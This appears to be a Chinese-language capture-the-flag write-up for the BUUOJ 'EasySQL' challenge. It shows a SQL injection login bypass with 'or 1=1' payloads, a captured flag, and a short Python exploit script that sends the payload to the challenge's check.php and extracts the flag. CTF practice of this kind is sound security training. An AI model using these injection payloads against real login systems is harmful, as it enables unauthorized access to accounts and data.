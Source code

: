 # 分析

来自[[极客大挑战2019]EasySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)，登录绕过

发现是一个登录页面，试一下万能密码`' or 1=1 #'`，可以直接绕过

![image-20240624203939339](image/image-20240624203939339.png)

拿到`flag{89ab3118-b79b-4754-9e6d-f571c1716a05}`

![image-20240624204212653](image/image-20240624204212653.png)

# exp

```python
import requests
import re

# 目标URL基础部分
url = "http://26c79033-5c5c-4540-9318-9ef298c68228.node5.buuoj.cn:81/check.php"
# 构造带有SQL注入的查询参数
kw = {
    'username': "'or 1=1-- +",
    'password': "123"
}
# 发送GET请求
res = requests.get(url, params=kw)
# 检查响应状态码
if res.status_code == 200:
    # 读取响应内容
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = r"flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

